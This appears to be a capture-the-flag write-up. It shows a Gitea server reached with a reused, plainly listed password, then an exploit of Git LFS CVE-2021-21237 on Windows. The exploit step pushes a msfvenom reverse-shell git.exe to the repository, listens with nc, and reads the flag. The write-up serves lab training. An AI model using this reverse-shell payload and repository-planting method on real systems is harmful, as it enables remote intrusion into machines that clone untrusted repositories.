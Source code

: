 # git

## Challenge

```
We found data being exfiltrated out regularly from server 10.0.1.44. Can you find the server it is going to and gain access to the remote server.

Target: Your target is the last line in the bat file on the remote server.
```

## Walkthrough

First step was to find what was running on 10.0.1.44

```sh
$ sudo nmap 10.0.1.44 -sS -v -A -p 0-65535
...
Discovered open port 22/tcp on 10.0.1.44
Discovered open port 3000/tcp on 10.0.1.44
...
3000/tcp open  ppp?
| fingerprint-strings: 
...
|   GetRequest: 
|     HTTP/1.0 200 OK
...
|     <title> Gitea: Git with a cup of tea </title>
...
```

Clearly a git web interface was running on `http://10.0.1.44:3000`.

Navigating to the web interface I found a user called `fab_admin` in the explore tab.

![explore](explore.png)

I made an assumption that the password was the same as `fab-admin` from [BADFAB1](../badfab1/README.md). And that assumption was correct!

```
username fab_admin
password populatetwiddleanointer
```

Now that I had user access to the git interface I continued reconnaissance and found a git repo at `http://10.0.1.44:3000/1ord_0f_th3_ch1p/chip_tracker.git`

Inspecting its `README.md` leads to some useful hints.

```md
# chip_tracker

Ensure to clone repo often to get stolen details.

Ensure anti-virus up to date on HQ PC, some of the git software might be out of date.
```

Sounds like the repo is cloned often and that the exploit has something to do with out of date git software on the system cloning the repo.

Inspecting the repo further I noticed a couple of things.

* We have write access but not for existing files, only new ones
* The only file in the repo `./chips_list.csv` is stored using git lfs

Digging around for exploits involving git-lfs I found [CVE-2021-21237](https://nvd.nist.gov/vuln/detail/CVE-2021-21237).

> Git LFS is a command line extension for managing large files with Git. On Windows, if Git LFS operates on a malicious repository with a git.bat or git.exe file in the current directory, that program would be executed, permitting the attacker to execute arbitrary code. This does not affect Unix systems. This is the result of an incomplete fix for CVE-2020-27955. This issue occurs because on Windows, Go includes (and prefers) the current directory when the name of a command run does not contain a directory separator. Other than avoiding untrusted repositories or using a different operating system, there is no workaround. This is fixed in v2.13.2.

I executed this exploit by creating a reverse shell payload with msfvenom and uploaded it to the git repo.

```sh
# create malicious git.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.0.8 LPORT=1337 -f exe > git.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

# add to git
$ git add git.exe
$ git commit -m "ಠ‿↼"

# listen for reverse shell
$ nc -l -p 1337 -vv &
listening on [any] 1337 ...

# upload
$ git push
...
```

Soon after my shell popped! I used it to read the desired `.bat`.

```dos
10.0.1.45: inverse host lookup failed: Unknown host
connect to [10.8.0.2] from (UNKNOWN) [10.0.1.45] 54848
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\git\chip_tracker>cd ..
C:\Users\Administrator\git\> dir
...
01/05/2022  06:09 PM               203 clone.bat
...
C:\Users\Administrator\git\>type clone.bat
...
REM All_YOUR_CHIP_ARE_BELONG_TO_US.
...
```

## Solve

string: `REM All_YOUR_CHIP_ARE_BELONG_TO_US.`
